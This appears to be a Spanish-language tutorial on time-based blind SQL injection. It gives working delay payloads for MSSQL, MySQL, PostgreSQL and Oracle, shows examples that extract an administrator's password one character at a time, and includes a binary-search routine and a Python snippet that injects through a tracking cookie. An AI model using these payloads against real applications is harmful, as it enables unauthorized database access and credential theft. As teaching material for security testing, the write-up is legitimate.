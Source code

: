 # Blind SQLi mediante time delays

Cuando una aplicación **no revela** diferencias en la respuesta ante condiciones booleanas ni muestra errores , aún es posible inferir true/false observando **el tiempo** que tarda en responder.

Si puedes inyectar una expresión que **haga que la base de datos espere** sólo cuando una condición es verdadera, entonces el tiempo de respuesta indica la verdad de esa condición.

Esto convierte la diferencia de tiempo en un canal de exfiltración.

---

## 1) Mecanismos por SGBD (funciones de delay y estructuras útiles)

Cada gestor tiene sus funciones y formas de condicionar la ejecución. A continuación las más usadas:

### Microsoft SQL Server (T-SQL)

* Función para retraso: **`WAITFOR DELAY 'hh:mm:ss'`**
* Estructura condicional típica:

  ```sql
  '; IF (condición) WAITFOR DELAY '0:0:10'--
  ```

  * Si `condición` es cierta, el servidor espera 10 segundos antes de continuar; la respuesta HTTP se retrasa.
* Otra variante (usar BEGIN...END si hace falta):

  ```sql
  '; IF (condición) BEGIN WAITFOR DELAY '0:0:10' END--
  ```

### MySQL

* Función para retraso: **`SLEEP(seconds)`**
* Variante básica:

  ```sql
  ' OR IF(condición, SLEEP(5), 0) #
  ```

  o

  ```sql
  ' OR (CASE WHEN condición THEN SLEEP(5) ELSE 0 END)--
  ```

  * `IF`/`CASE` ejecutan `SLEEP(5)` sólo si `condición` es verdadera.
  * Comentarios: en MySQL `--` requiere espacio posterior; `#` funciona como comentario con menos problemas.

### PostgreSQL

* Función para retraso: **`pg_sleep(seconds)`**
* Ejemplo:

  ```sql
  '; SELECT CASE WHEN (condición) THEN pg_sleep(5) ELSE pg_sleep(0) END;--
  ```

  o más sencillo:

  ```sql
  ' OR (SELECT CASE WHEN (condición) THEN pg_sleep(5) ELSE 0 END)--
  ```

### Oracle

* Función para retraso: **`DBMS_LOCK.SLEEP(seconds)`** (necesita privilegios en muchos entornos)
* Ejemplo:

  ```sql
  ' || (CASE WHEN condición THEN DBMS_LOCK.SLEEP(5) ELSE NULL END) -- (sintaxis depende del contexto)
  ```
* Nota: muchas instalaciones no permiten DBMS_LOCK o requieren permisos; si no está disponible, se usan otras técnicas (heavy queries, OAST).

### SQLite

* No hay `SLEEP` nativo, pero se puede inducir retrasos con funciones definidas por extensión o consultas costosas; sin embargo en la práctica SQLite no es frecuente en este tipo de vectores web.

---

## 2) Construcción general del payload

1. **Cierra correctamente** cualquier comilla abierta si la aplicación rodea tu input con `'` o `"`.
2. **Inserta una condición** que dependa de la información que quieres extraer (ej. `ASCII(SUBSTRING(...)) > mid`).
3. **Si la condición es verdadera**, ejecuta la función de delay (`SLEEP`, `pg_sleep`, `WAITFOR`), si no, ejecuta 0 o nada.
4. **Comenta el resto** de la consulta con `-- `, `#` o `/*...*/` según SGBD y contexto.

Formato genérico (ejemplos):

* **MSSQL**:

  ```sql
  '; IF (CONDICION) WAITFOR DELAY '0:0:10'--
  ```
* **MySQL**:

  ```sql
  ' OR IF(CONDICION, SLEEP(5), 0) --
  ```
* **Postgres**:

  ```sql
  ' OR (SELECT CASE WHEN (CONDICION) THEN pg_sleep(5) ELSE 0 END)--
  ```

---

## 3) Ejemplo práctico — extraer primer carácter del password

Supongamos tabla `users(username,password)` y que queremos saber si el primer carácter del password de `Administrator` es mayor que `m`.

### MSSQL

```sql
'; IF (SELECT COUNT(*) FROM Users WHERE username='Administrator' AND SUBSTRING(password,1,1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

* Si el conteo = 1 → condición verdadera → WAITFOR retrasa 10s → respuesta lenta.

### MySQL

```sql
' OR IF((SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='Administrator') > 109, SLEEP(5), 0) --
```

* `ASCII(...) > 109` equivale a `> 'm'`.

### PostgreSQL

```sql
' OR (SELECT CASE WHEN (ASCII(SUBSTRING(password FROM 1 FOR 1)) > 109) THEN pg_sleep(5) ELSE 0 END FROM users WHERE username='Administrator')--
```

### Oracle (si DBMS_LOCK disponible)

```sql
' || (CASE WHEN (ASCII(SUBSTR((SELECT password FROM users WHERE ROWNUM=1),1,1)) > 109) THEN DBMS_LOCK.SLEEP(5) ELSE NULL END) --
```

(ajusta concatenación y contexto según cómo la app inserte tu input)

---

## 4) Optimización: búsqueda binaria sobre ASCII (reduce peticiones)

En lugar de probar todos los caracteres alfabéticos secuencialmente, usa búsqueda binaria sobre el rango ASCII imprimible (por ejemplo 32–126).

* Cada petición determina si ASCII(char) > mid.
* Repite hasta aislar el valor (log2(95) ≈ 7 peticiones por carácter en promedio).

**Pseudocódigo lógico**:

```
lo = 32; hi = 126
while lo <= hi:
  mid = (lo+hi)//2
  payload = build_payload_check_ascii(pos, mid)
  if response_delayed(payload): lo = mid+1
  else: hi = mid-1
char = chr(lo or hi)
```

---

## 5) Medición y fiabilidad

* Define un **umbral**: si usas `SLEEP(5)`, considera la respuesta "lenta" si el *response_time* > (baseline + tolerance), p. ej. baseline + 3s.
* **Establece baseline** haciendo peticiones control: una con condición true conocida y otra con condition false conocida para comparar.
* **Reintentos**: haz 2–3 peticiones por verificación y promedia para evitar falsos positivos por jitter o tráfico de red.
* **Rate limiting**: no abuses; muchos delays largos generan ruido y pueden activar alertas o bloquear.

---

## 6) Automatización (herramientas y scripts)

* **sqlmap** soporta time-based (`--technique=T`) y puede automatizar extracción.
* **Burp Intruder** o **Repeater** para pruebas manuales.
* **Scripts Python** con `requests` para control total: medir tiempos, implementar búsqueda binaria, reintentos y tolerancia.

Ejemplo minimal en pseudocode Python:

```py
payload = "' OR IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='Administrator'),{pos},1)) > {mid}, SLEEP(5), 0) --"
resp = requests.get(url, cookies={'TrackingId': payload})
if resp.elapsed.total_seconds() > threshold: condition=True
```

---

## 7) Limitaciones y contramedidas

* **Latencia / ruido de red**: hace más difícil distinguir delays pequeños; usa SLEEP suficientemente grande y multiple reintentos.
* **WAF/IDS**: patrones con `SLEEP`, `WAITFOR` o `pg_sleep` suelen ser bloqueados o detectados.
* **Privilegios**: algunas funciones pueden requerir permisos (por ejemplo `DBMS_LOCK.SLEEP`).
* **Coste en tiempo**: extracción por time-based es lenta (una sola extracción completa de una contraseña larga puede tardar horas).

---


